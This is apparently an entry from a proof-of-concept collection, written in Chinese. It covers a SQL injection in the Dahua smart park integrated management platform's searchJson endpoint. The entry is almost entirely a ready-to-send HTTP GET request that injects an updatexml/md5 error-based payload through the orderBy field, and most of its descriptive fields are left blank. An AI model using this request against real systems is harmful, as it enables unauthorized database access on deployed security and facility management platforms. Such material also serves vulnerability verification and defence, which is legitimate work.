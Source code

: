 ﻿# 大华智慧园区综合管理平台 searchJson SQL注入漏洞

> 更新时间：2023-12-04

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：

> 验证脚本：HTTP

```
GET /portal/services/carQuery/getFaceCapture/searchJson/%7B%7D/pageJson/%7B%22orderBy%22:%221%20and%201=updatexml(1,concat(0x7e,(select%20md5(388609)),0x7e),1)--%22%7D/extend/%7B%7D HTTP/1.1
Accept-Encoding: gzip, deflate
```

> 响应代码特征：-1

> 响应内容特征：

> 上传文件定位：

> 验证文件来源：大华智慧园区综合管理平台 searchJson SQL注入漏洞.poc
